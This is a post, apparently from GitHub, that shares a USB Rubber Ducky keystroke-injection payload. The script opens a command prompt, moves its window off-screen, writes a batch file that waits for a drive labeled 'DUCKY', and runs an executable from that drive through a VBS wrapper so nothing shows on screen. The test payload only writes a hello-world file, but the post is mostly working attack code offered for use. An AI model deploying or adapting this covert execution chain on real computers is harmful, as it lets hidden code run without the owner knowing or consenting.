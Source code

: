 The following is a payload I have been working on that waits until a drive labeled "DUCKY" is mounted. I have used some of midnightsnake's code in this payload. The name of the file that is run can be changed to .exe, I am just having it run a batch for testing purposes. The line that says "STRING START %myd%\myEXE.bat" is the line that executes the executable.

```
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Run an executable file off of the SD card after it mounts. 
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 25
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') 

do set myd=%%d
ENTER
STRING if Exist %myd% (
ENTER
STRING goto break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING START %myd%\HelloWorld.exe
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-

background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, 

False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

The following is the batch file that is run after the "DUCKY" drive has been mounted. Everything is being run invisibly, so you will need to check for the existence of "Message.txt" which will probably be in "C:\Windows\system32".

```
REM Message.txt
echo Hello Wolrd!!!
echo Hello World!!! > Message.txt
```

The encoders now support the repeat command, so should only be a problem if you are using an old encoder. Encoders also now support white space in the duck script, so functions have been separated with white space. 


